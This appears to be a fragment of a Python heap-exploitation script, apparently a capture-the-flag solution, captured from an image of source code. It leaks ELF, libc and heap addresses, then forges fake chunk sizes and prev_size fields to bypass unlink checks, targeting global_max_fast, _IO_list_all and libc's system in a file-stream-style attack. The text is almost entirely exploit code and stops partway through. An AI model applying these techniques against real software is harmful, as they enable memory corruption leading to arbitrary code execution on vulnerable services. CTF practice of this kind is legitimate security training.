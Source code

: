 ```py
  ru("Comment:\n")
  s(addr)

def get_heap_addr():
  ru("4.exit\n")
  sl("2019")
  heap_list=ru("\n")
  heap_list=int(heap_list[2:],16)
  return heap_list

heap_list=get_heap_addr()
elfbase=heap_list-0x202040

add(0x98,'a'*0x98) # 0
add(0x98,'b'*0x98) # 1
delete(0)
add(0x98,"aaaaaaaa") # 0
ru("aaaaaaaa")
libcbase=uu64(ru("\x7f"))-3951480 

add(0x98,'c'*0x98) # 2
add(0x98,'d'*0x98) # 3
add(0x98,'f'*0x98) # 4
delete(0)
delete(2)

add(0x98,'aaaaaaaa') # 0
ru("aaaaaaaa")
heapbase=uu64(ru('\n')[:-1])-0x140

global_max_fast=libcbase+0x3c67f8
_IO_list_all=libcbase+libc.sym['_IO_list_all']
fastbinsY=libcbase+libc.sym['__malloc_hook']+0x10+0x8
chunk_size=(_IO_list_all-fastbinsY)*2+0x20-0x10
sys_addr=libcbase+libc.sym['system']

# construct fake prev_size and size to bypass unlink when add
payload='c' * 0x28 + p64(0xd8) + p64(0x61)
add(0x98,payload) # 2

# update the size
delete(4)
delete(3)
add(chunk_size,'d'*0x98) # 3
add(0x98,'f'*0x98) # 4

# delete 1 and overwrite its size to 0xde
delete(1)
payload='a'*0x20+p64(heapbase+0xa8-0x3)
edit(payload)

payload='A'*0x90+p64(0)+p64(chunk_size+0x10+0xa1)
add(0xa8,payload) # 1

# 5 will not exist, put all free chunk to small bin to prevent unexpected error
ru("4.exit\n")
sl("1")
ru("Content length:\n")
sl(str(0x100))

delete(2)

payload='g'*0x90+p64(0)+p64(chunk_size+0x11)
```